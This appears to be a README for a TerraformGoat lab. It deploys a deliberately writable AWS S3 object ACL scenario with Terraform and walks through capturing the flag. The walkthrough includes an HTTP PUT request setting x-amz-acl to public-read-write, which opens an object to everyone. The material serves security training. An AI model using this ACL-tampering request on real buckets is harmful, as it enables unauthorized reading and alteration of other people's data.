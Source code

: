 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/object_storage_service/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

After typing yes, the scene will be built automatically and quickly

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

We see the list of files that try to access index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

Access is forbidden, but we can modify whether the object can be read or written by adding `public-read-write` to `x-amz-acl` in the request header via the PUT method

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Then we get the ACL of this object and we see that all users can now read and write to it

![image-20220426172506589](../../../images/image-20220426172506589.png)

Afterwards, when you visit index.html, you successfully get the flags

![image-20220426172534934](../../../images/image-20220426172534934.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

enter yes

![image-20220426173554665](../../../images/image-20220426173554665.png)
